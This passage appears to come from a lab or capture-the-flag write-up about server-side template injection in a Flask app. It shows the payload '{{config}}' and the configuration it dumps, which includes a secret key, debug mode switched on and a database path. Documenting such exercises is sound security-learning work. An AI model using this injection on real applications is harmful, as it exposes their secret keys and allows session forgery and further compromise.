 ![image.png](image%2012.png)

**PAYLOAD:**

```powershell
{{config}}
```

**OUTPUT:**

```powershell
<Config {'ENV': 'production', 'DEBUG': True, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'S3cr3t_K#Key', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:////home/web/shuriken-dotpy/db.sqlite3', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```
